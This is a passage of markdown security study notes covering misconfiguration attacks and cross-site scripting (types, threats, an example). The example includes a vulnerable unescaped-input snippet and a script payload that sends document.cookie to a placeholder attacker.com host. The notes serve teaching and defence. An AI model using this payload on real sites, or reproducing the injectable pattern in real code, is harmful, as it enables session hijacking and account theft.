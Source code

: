 ### Attacks of Security misconfiguration

- Attacker recognizes that sample application is left on application server
  - Attacker logs in to the server through its admin console and default password.
- Attacker recognizes directory listing is not disabled on the server.  
  - Attacker lists directories on a server
  - Attacker downloads source code to decompile them to look for access control flaws.
- Attacker checks error messages to see component versions and looks for vulnerabilities in them.

## Cross-Site Scripting (XSS)

- Also known as **cross site scripting**
- 📝 Taking untrusted data and sending it without input validation or escaping
- 📝 Type of client-side [code injection](#code-injection)
- Used to
  - hijack user sessions
  - deface web sites
  - redirect the user to malicious  sites
  - bypass controls such as same-origin policy

### Types of Cross-Site Scripting (XSS)

- **Reflected XSS**
  - Application or API includes unvalidated and unescaped user input as part of HTML output.
  - Allows attacker to execute arbitrary HTML and JavaScript in victims browser.
  - Enables attacker to show malicious link to user to point to an attacker-controlled page.
- **Stored XSS**
  - Application or API stores unsanitized user input that is viewed at a later time.
- **DOM XSS**
  - Vulnerability of JavaScript frameworks, SPAs and APIs that include attacker-controllable data to a page.
  - Application shouldn't send attacker-controllable data to unsafe JavaScript APIs.

### Threats of Cross-Site Scripting (XSS)

- Session stealing
- Account takeover
- [MFA](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa) bypass
- DOM node replacement or defacement (such as trojan login panels)
- Attacks against the user's browser such as malicious software download
- Key logging

### Example attacks for Cross-Site Scripting (XSS)

- Application sets value of an HTML parameter to an input without proper validation/sanitization

  ```html
    page += "<input name='credit-card' type='TEXT'
    value='" + request.getParameter("CC") + "'>";
  ```

- Attacker can then modify CC parameter in browser to: `'><script>document.location=
'http://attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.`
- More examples are at [XSS filter evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
  - ❗ However must of them gets detected and filtered by Chrome or Firefox.
  - 💡 Can test if the injection will be successful on e.g. [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA)
